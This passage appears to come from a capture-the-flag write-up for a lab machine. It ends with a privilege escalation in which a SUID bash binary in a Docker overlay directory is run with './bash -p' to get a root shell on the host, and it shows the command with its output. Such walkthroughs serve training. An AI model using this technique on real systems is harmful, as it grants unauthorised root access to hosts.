 ```

 -rwxr-xr-x 1 root root     29 Apr 10 2022 zfgrep

 -rwxr-xr-x 1 root root   2081 Apr 10 2022 zforce

 -rwxr-xr-x 1 root root   8049 Apr 10 2022 zgrep

 -rwxr-xr-x 1 root root   2206 Apr 10 2022 zless

 -rwxr-xr-x 1 root root   1842 Apr 10 2022 zmore

 -rwxr-xr-x 1 root root   4577 Apr 10 2022 znewl
```
{% endcode %}

* Executed ./bash -p and got root on the main machine.

```
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin$ ./bash -

 bash-5.1# whoami

 root
```
